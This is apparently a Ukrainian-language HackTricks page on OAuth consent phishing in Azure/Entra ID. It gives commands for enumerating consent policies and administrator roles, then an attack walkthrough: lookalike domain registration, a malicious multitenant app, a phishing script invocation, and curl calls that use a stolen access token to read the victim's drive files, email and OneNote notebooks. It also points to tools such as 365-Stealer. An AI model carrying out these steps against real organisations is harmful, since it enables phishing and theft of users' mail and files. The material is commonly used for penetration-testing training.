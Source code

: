 # Az - OAuth Apps Phishing

{{#include ../../../banners/hacktricks-training.md}}

## OAuth App Phishing

**Azure Applications** налаштовуються з дозволами, які вони зможуть використовувати, коли користувач надає згоду на застосунок (наприклад, для перерахунку каталогу, доступу до файлів або виконання інших дій). Зверніть увагу, що застосунок буде діяти від імені користувача, тому навіть якщо застосунок може запитувати адміністративні дозволи, якщо **користувач, що надає згоду, не має цих дозволів**, застосунок **не зможе виконувати адміністративні дії**.

### App consent permissions

За замовчуванням будь-який **користувач може надати згоду на застосунки**, хоча це можна налаштувати так, щоб користувачі могли надавати згоду лише на **застосунки від перевірених видавців для вибраних дозволів** або навіть **вилучити дозвіл** для користувачів на надання згоди на застосунки.

<figure><img src="../../../images/image.png" alt=""><figcaption></figcaption></figure>

Якщо користувачі не можуть надати згоду, **адміністратори**, такі як `GA`, `Application Administrator` або `Cloud Application` `Administrator`, можуть **надати згоду на застосунки**, які користувачі зможуть використовувати.

Більше того, якщо користувачі можуть надавати згоду лише на застосунки з **низькоризиковими** дозволами, ці дозволи за замовчуванням є **openid**, **profile**, **email**, **User.Read** та **offline_access**, хоча можливо **додати більше** до цього списку.

І якщо вони можуть надавати згоду на всі застосунки, вони можуть надавати згоду на всі застосунки.

### 2 Types of attacks

- **Unauthenticated**: З зовнішнього облікового запису створіть застосунок з **низькоризиковими дозволами** `User.Read` та `User.ReadBasic.All`, наприклад, фішинг користувача, і ви зможете отримати доступ до інформації каталогу.
- Це вимагає, щоб фішинговий користувач був **здатний приймати OAuth застосунки з зовнішнього орендаря**.
- Якщо фішинговий користувач є адміністратором, який може **надавати згоду на будь-який застосунок з будь-якими дозволами**, застосунок також може **запитувати привілейовані дозволи**.
- **Authenticated**: Після компрометації принципала з достатніми привілеями, **створіть застосунок всередині облікового запису** та **фішинг** деякого **привілейованого** користувача, який може приймати привілейовані OAuth дозволи.
- У цьому випадку ви вже можете отримати доступ до інформації каталогу, тому дозвіл `User.ReadBasic.All` більше не є цікавим.
- Вам, ймовірно, цікаві **дозволи, які вимагають надання згоди адміністратором**, оскільки звичайний користувач не може надати жодних дозволів для OAuth застосунків, тому вам потрібно **фішити лише цих користувачів** (більше про те, які ролі/дозволи надають це право пізніше).

### Users are allowed to consent

Зверніть увагу, що вам потрібно виконати цю команду від користувача всередині орендаря, ви не можете знайти цю конфігурацію орендаря з зовнішнього. Наступний cli може допомогти вам зрозуміти дозволи користувачів:
```bash
az rest --method GET --url "https://graph.microsoft.com/v1.0/policies/authorizationPolicy"
```
- Користувачі можуть давати згоду на всі додатки: Якщо всередині **`permissionGrantPoliciesAssigned`** ви можете знайти: `ManagePermissionGrantsForSelf.microsoft-user-default-legacy`, тоді користувачі можуть приймати кожен додаток.
- Користувачі можуть давати згоду на додатки від перевірених видавців або вашої організації, але тільки на дозволи, які ви виберете: Якщо всередині **`permissionGrantPoliciesAssigned`** ви можете знайти: `ManagePermissionGrantsForOwnedResource.microsoft-dynamically-managed-permissions-for-team`, тоді користувачі можуть приймати кожен додаток.
- **Вимкнути згоду користувача**: Якщо всередині **`permissionGrantPoliciesAssigned`** ви можете знайти тільки: `ManagePermissionGrantsForOwnedResource.microsoft-dynamically-managed-permissions-for-chat` та `ManagePermissionGrantsForOwnedResource.microsoft-dynamically-managed-permissions-for-team`, тоді користувачі не можуть давати згоду.

Можна знайти значення кожної з коментованих політик у:
```bash
az rest --method GET --url "https://graph.microsoft.com/v1.0/policies/permissionGrantPolicies"
```
### **Адміністратори додатків**

Перевірте користувачів, які вважаються адміністраторами додатків (можуть приймати нові додатки):
```bash
# Get list of roles
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles"

# Get Global Administrators
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/1b2256f9-46c1-4fc2-a125-5b2f51bb43b7/members"

# Get Application Administrators
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/1e92c3b7-2363-4826-93a6-7f7a5b53e7f9/members"

# Get Cloud Applications Administrators
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/0d601d27-7b9c-476f-8134-8e7cd6744f02/members"
```
## **Огляд потоку атаки**

Атака включає кілька етапів, спрямованих на загальну компанію. Ось як це може відбуватися:

1. **Реєстрація домену та хостинг додатка**: Зловмисник реєструє домен, що нагадує надійний сайт, наприклад, "safedomainlogin.com". Під цим доменом створюється піддомен (наприклад, "companyname.safedomainlogin.com") для хостингу додатка, призначеного для захоплення кодів авторизації та запиту токенів доступу.
2. **Реєстрація додатка в Azure AD**: Зловмисник потім реєструє багатокористувацький додаток у своєму Azure AD Tenant, називаючи його на честь цільової компанії, щоб виглядати легітимно. Вони налаштовують URL-адресу перенаправлення додатка на піддомен, що хостить шкідливий додаток.
3. **Налаштування дозволів**: Зловмисник налаштовує додаток з різними дозволами API (наприклад, `Mail.Read`, `Notes.Read.All`, `Files.ReadWrite.All`, `User.ReadBasic.All`, `User.Read`). Ці дозволи, після їх надання користувачем, дозволяють зловмиснику витягувати чутливу інформацію від імені користувача.
4. **Розповсюдження шкідливих посилань**: Зловмисник створює посилання, що містить ідентифікатор клієнта шкідливого додатка, і ділиться ним з цільовими користувачами, обманюючи їх на надання згоди.

## Приклад атаки

1. Зареєструйте **новий додаток**. Він може бути лише для поточного каталогу, якщо ви використовуєте користувача з атакованого каталогу, або для будь-якого каталогу, якщо це зовнішня атака (як на наступному зображенні).
1. Також налаштуйте **URL-адресу перенаправлення** на очікувану URL-адресу, куди ви хочете отримати код для отримання токенів (`http://localhost:8000/callback` за замовчуванням).

<figure><img src="../../../images/image (1).png" alt=""><figcaption></figcaption></figure>

2. Потім створіть секрет додатка:

<figure><img src="../../../images/image (2).png" alt=""><figcaption></figcaption></figure>

3. Виберіть дозволи API (наприклад, `Mail.Read`, `Notes.Read.All`, `Files.ReadWrite.All`, `User.ReadBasic.All`, `User.Read`)

<figure><img src="../../../images/image (3).png" alt=""><figcaption></figcaption></figure>

4. **Виконайте веб-сторінку (**[**azure_oauth_phishing_example**](https://github.com/carlospolop/azure_oauth_phishing_example)**)**, яка запитує дозволи:
```bash
# From https://github.com/carlospolop/azure_oauth_phishing_example
python3 azure_oauth_phishing_example.py --client-secret <client-secret> --client-id <client-id> --scopes "email,Files.ReadWrite.All,Mail.Read,Notes.Read.All,offline_access,openid,profile,User.Read"
```
5. **Надішліть URL жертві**
1. У цьому випадку `http://localhost:8000`
6. **Жертви** потрібно **прийняти запит:**

<figure><img src="../../../images/image (4).png" alt=""><figcaption></figcaption></figure>

7. Використовуйте **токен доступу для отримання запитуваних дозволів**:
```bash
export ACCESS_TOKEN=<ACCESS_TOKEN>

# List drive files
curl -X GET \
https://graph.microsoft.com/v1.0/me/drive/root/children \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Accept: application/json"

# List eails
curl -X GET \
https://graph.microsoft.com/v1.0/me/messages \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Accept: application/json"

# List notes
curl -X GET \
https://graph.microsoft.com/v1.0/me/onenote/notebooks \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Accept: application/json"
```
## Інші інструменти

- [**365-Stealer**](https://github.com/AlteredSecurity/365-Stealer)**:** Перегляньте [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer), щоб дізнатися, як його налаштувати.
- [**O365-Attack-Toolkit**](https://github.com/mdsecactivebreach/o365-attack-toolkit)

## Пост-експлуатація

### Фішинг Пост-експлуатація

Залежно від запитуваних дозволів, ви можете **отримати доступ до різних даних орендаря** (список користувачів, груп... або навіть змінювати налаштування) та **інформації користувача** (файли, нотатки, електронні листи...). Потім ви можете використовувати ці дозволи для виконання цих дій.

### Пост-експлуатація додатків

Перегляньте розділи Додатки та Службові принципали на сторінці:

{{#ref}}
../az-privilege-escalation/az-entraid-privesc/
{{#endref}}

## Посилання

- [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer)
- [https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/](https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/)

{{#include ../../../banners/hacktricks-training.md}}

